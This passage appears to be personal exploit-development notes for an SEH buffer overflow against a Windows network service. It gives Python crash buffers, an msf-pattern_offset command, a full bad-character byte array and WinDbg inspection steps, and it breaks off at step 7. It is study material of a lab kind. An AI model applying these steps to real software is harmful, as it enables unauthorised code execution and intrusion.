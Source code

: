 4. Use the following to identify the correct offset: `msf-pattern_offset -l 1000 -q 33654132`
5. Update your code such that you are using the latest offset (128 in this case). When you run `!exchain` again you should see 42424242 instead:

    ```
    try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    inputBuffer = b"\x41" * 128
    inputBuffer+= b"\x42\x42\x42\x42"
    inputBuffer+= b"\x43" * (size - len(inputBuffer))
    ```

6. Next need to do bad characters detection. Send something like this below, but importantly, after sending, use `g` AGAIN so that the program will handle the exception:

    ```
    try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    badchars = (
        b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d"
        b"\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a"
        b"\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27"
        b"\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34"
        b"\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
        b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e"
        b"\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b"
        b"\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
        b"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75"
        b"\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
        b"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
        b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c"
        b"\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9"
        b"\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
        b"\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
        b"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
        b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd"
        b"\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea"
        b"\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
        b"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

    inputBuffer = b"\x41" * 128
    inputBuffer+= b"\x42\x42\x42\x42"
    inputBuffer+= badchars
    inputBuffer+= b"\x43" * (size - len(inputBuffer))
    ```

7. Now we need to look at `dds esp L5` and look at the THIRD row, which is usually the second argument(EstablisherFrame), as the first row is the return address. For example if it is something like this, the value we are interested in is `0132ff54`:

